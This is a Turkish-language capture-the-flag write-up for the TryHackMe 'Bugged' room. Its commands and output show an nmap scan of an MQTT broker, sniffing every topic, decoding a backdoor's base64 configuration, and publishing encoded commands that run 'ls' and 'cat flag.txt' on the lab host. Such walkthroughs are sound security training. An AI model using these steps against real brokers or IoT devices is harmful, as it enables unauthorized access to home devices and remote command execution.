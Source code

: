 ```yaml
---
title: Bugged
date: 2024-03-28 12:13:12 
categories: [TryHackMe]
tags: [Easy]
image: /images/bug.webp
---
```


nmap:

````console
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV -p 1883 -Pn -sS -sC  10.10.248.88 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 00:02 UTC
Nmap scan report for 10.10.248.88 (10.10.248.88)
Host is up (0.093s latency).

PORT     STATE SERVICE                  VERSION
1883/tcp open  mosquitto version 2.0.14
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/uptime: 396 seconds
|     $SYS/broker/load/bytes/sent/1min: 392.12
|     $SYS/broker/load/sockets/1min: 0.96
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/load/bytes/sent/15min: 209.39
|     $SYS/broker/load/messages/received/15min: 32.45
|     kitchen/toaster: {"id":1911086023739202115,"in_use":true,"temperature":158.96194,"toast_time":122}
|     frontdeck/camera: {"id":12584492580327769478,"yaxis":-135.17798,"xaxis":164.87808,"zoom":4.9513545,"movement":false}
|     $SYS/broker/messages/sent: 670
|     $SYS/broker/load/sockets/5min: 0.44
|     storage/thermostat: {"id":17418484530706111169,"temperature":23.365917}
|     $SYS/broker/load/bytes/received/1min: 4117.86
|     $SYS/broker/load/publish/sent/5min: 3.79
|     $SYS/broker/load/connections/1min: 0.96
|     $SYS/broker/load/messages/received/1min: 88.96
|     patio/lights: {"id":18439393988364281645,"color":"PURPLE","status":"OFF"}
|     $SYS/broker/load/connections/15min: 0.21
|     $SYS/broker/load/bytes/sent/5min: 410.94
|     $SYS/broker/messages/received: 603
|     $SYS/broker/bytes/sent: 5186
|     $SYS/broker/load/connections/5min: 0.44
|     $SYS/broker/load/publish/sent/1min: 0.96
|     $SYS/broker/load/messages/sent/1min: 89.92
|     livingroom/speaker: {"id":8543971176489709932,"gain":64}
|     $SYS/broker/publish/bytes/received: 20172
|     $SYS/broker/load/bytes/received/5min: 3125.71
|     $SYS/broker/load/sockets/15min: 0.21
|     $SYS/broker/bytes/received: 28390
|     $SYS/broker/load/messages/received/5min: 66.50
|     $SYS/broker/load/bytes/received/15min: 1526.82
|     $SYS/broker/load/messages/sent/5min: 70.29
|     $SYS/broker/load/publish/sent/15min: 2.08
|_    $SYS/broker/load/messages/sent/15min: 34.52

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.12 seconds
````

> MQTT, makineden makineye iletişim için kullanılan, standart tabanlı bir mesajlama protokolü veya kurallar dizisidir. Akıllı sensörler, giyilebilir cihazlar ve başka nesnelerin interneti (IoT) cihazları, veri alışverişinde bulunmak için genelde sınırlı bant genişliğine sahip, kısık kaynaklı ağlar kullanmak zorundadır. Protokolün uygulanması basit olduğundan ve IoT verisini kolayca iletebildiğinden, IoT cihazları bu tarz veri iletimi için MQTT'yi kullanır. MQTT, cihazların birbirleri aracılığıyla bulutla ve bulutun cihazla mesajlaşmasını destekler.
{: .prompt-info }


Daha ayrıntılı bilgi toplamak için 'mosquitto' tool'unu kullanacağım.

Kurmak için:`sudo apt-get install mosquitto mosquitto-clients -y`

````console
┌──(root㉿kali)-[~]
└─# mosquitto_sub -t "#" -h 10.10.248.88                                       
{"id":11020802636393548308,"yaxis":40.743423,"xaxis":39.99185,"zoom":4.788679,"movement":false}
{"id":7775467277534831317,"gain":49}
{"id":9188769425384942422,"temperature":23.354803}
{"id":7077681100260006541,"color":"BLUE","status":"ON"}
{"id":9561351088727157199,"in_use":false,"temperature":148.52513,"toast_time":181}
{"id":6431685341973848107,"temperature":23.56944}
{"id":10548951761765568350,"gain":51}
{"id":18096689562122606512,"color":"GREEN","status":"OFF"}
{"id":11139074985325934205,"temperature":23.71404}
{"id":2594140563300221266,"yaxis":110.61658,"xaxis":-174.8534,"zoom":1.9174262,"movement":false}
{"id":11600223946097860301,"in_use":false,"temperature":154.23352,"toast_time":212}
{"id":14485071012955464635,"gain":41}
{"id":15951135894745734063,"temperature":24.273884}
{"id":10655198988570014405,"color":"BLUE","status":"ON"}
{"id":5348173332577154178,"gain":68}
{"id":13794493104315577823,"in_use":false,"temperature":142.15854,"toast_time":358}
{"id":3559706274822825947,"temperature":23.533756}
{"id":16035775462361228654,"yaxis":-126.299545,"xaxis":32.90918,"zoom":1.4865787,"movement":false}
{"id":4593580109866002279,"gain":65}
{"id":5293604391322172376,"color":"RED","status":"ON"}
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
{"id":6802073417497390432,"temperature":23.749607}
{"id":971046693020516785,"in_use":true,"temperature":150.74762,"toast_time":290}
{"id":14159067284096886061,"gain":46}
{"id":17814563992915544517,"temperature":24.458862}
{"id":4777869983458155195,"color":"RED","status":"ON"}
{"id":714836790595205573,"yaxis":-79.81416,"xaxis":-125.57585,"zoom":3.9788232,"movement":false}
{"id":8937915394879815327,"temperature":24.392555}
{"id":17654776029895610496,"in_use":false,"temperature":155.53123,"toast_time":131}
{"id":13718822728532730453,"gain":59}
{"id":11275610268242984704,"color":"BLUE","status":"ON"}
{"id":17034581805727403042,"temperature":23.56617}
{"id":10575714719919727192,"gain":49}
````

Base64 ile kodlanmış bir dize buluyorum. 

````console
┌──(root㉿kali)-[~]
└─# echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==" | base64 -d
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"} 
````

İlginç, bilinmeyen cihazla etkileşime geçilebiliyor gibi görünüyor ve hangi konuya abone olduğunu biliyoruz. Şimdi nasıl tepki vereceğini görmek için ona bir komut göndermeyi deneyelim:

````console
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h 10.10.248.88
SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=

mosquitto_pub -h 10.10.248.88 -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -m '{"HELP"}'   
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Bugged/images/1.png?raw=true)

Bu cihaz ağa açılan bir backdoor. 

İlk mesajdan aldığımız ID'yi kullanarak şu komutu gönderebiliriz:

"{"id": "cdd1b1c0–1c40–4b0f-8e22–61b357548b7d", "cmd": "CMD", "arg": "ls"}" komutu base64 ile encode ediyoruz:
`eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==`

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Bugged/images/2.png?raw=true)

Cihazdaki klasörde flag.txt dosyası olduğunu gördük.

"{"id": "cdd1b1c0–1c40–4b0f-8e22–61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}" komutunun base64 encode hali:
`eyJpZCI6ICJjZGQxYjFjMOKAkzFjNDDigJM0YjBmLThlMjLigJM2MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=`

Komutu gönderelim ve flag'i alalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Bugged/images/3.png?raw=true)
